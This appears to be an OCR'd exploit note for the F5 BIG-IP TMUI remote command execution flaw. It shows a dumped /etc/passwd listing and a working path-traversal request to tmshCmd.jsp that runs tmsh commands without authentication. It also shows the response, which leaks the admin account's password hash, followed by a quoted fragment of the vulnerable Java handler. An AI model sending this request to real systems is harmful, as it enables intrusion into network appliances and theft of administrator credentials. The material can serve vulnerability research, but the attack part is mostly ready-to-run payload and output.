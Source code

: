     named:x:25:25:Named:/var/named:/bin/false
    qemu:x:107:107:qemu user:/:/sbin/nologin
    sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    sdm:x:498:495:sdmuser:/var/sdm:/bin/false
    ntp:x:38:38::/etc/ntp:/sbin/nologin
    syscheck:x:199:10::/:/sbin/nologin
    restnoded:x:198:198::/:/sbin/nologin
    twister5:x:0:500:twister5:/home/twister5:/bin/bash

### 远程命令执行

Example:

    /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

`list auth user` look all user

`list auth user admin` only look admin user

https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions3.png

    GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    {
      "error": "",
      "output": "auth user admin {\n    description \"Admin User\"\n    encrypted-password $6$bEhBobYGG3$zmQ.k2Yw4E3iOAJu1jDIrE.LClSUq6xdLyNTvgDy14FIeDsxdnwAxkxUlpSQ7F60Y3tzKsUAKz.2qRtPLa.dx1\n    partition Common\n    partition-access {\n        all-partitions {\n            role admin\n        }\n    }\n    shell tmsh\n}\n"
    }

#### format

        description "Admin User"
        encrypted-password $6$bEhBobYGG3$zmQ.k2Yw4E3iOAJu1jDIrE.LClSUq6xdLyNTvgDy14FIeDsxdnwAxkxUlpSQ7F60Y3tzKsUAKz.2qRtPLa.dx1
        partition Common
        partition-access {
            all-partitions {
                role admin
            }
        }
        shell tmsh
    }

#### WorkspaceUtils.runTmshCommand

    JSONObject resultObject = WorkspaceUtils.runTmshCommand(cmd, request);
    /usr/local/www/tmui/WEB-INF/lib/tmui.jar/com.f5.tmui.locallb.handler.workspace.WorkspaceUtils#runTmshCommand
      public static JSONObject runTmshCommand(String command, HttpServletRequest request) {
        F5Logger logger = (F5Logger)F5Logger.getLogger(WorkspaceUtils.class);
        JSONObject resultObject = new JSONObject();
        String output = "";
        String error = "";
        if (!csrfValidated(request.getHeader("_bufvalue"), request.getHeader("_timenow"), request.getHeader("Tmui-Dubbuf"))) {
          logger.warn("Invalid user token - token provided by user is not authorized");
          resultObject.put("output", output);
          resultObject.put("error", NLSEngine.getString("ilx.workspace.error.InvalidUserToken"));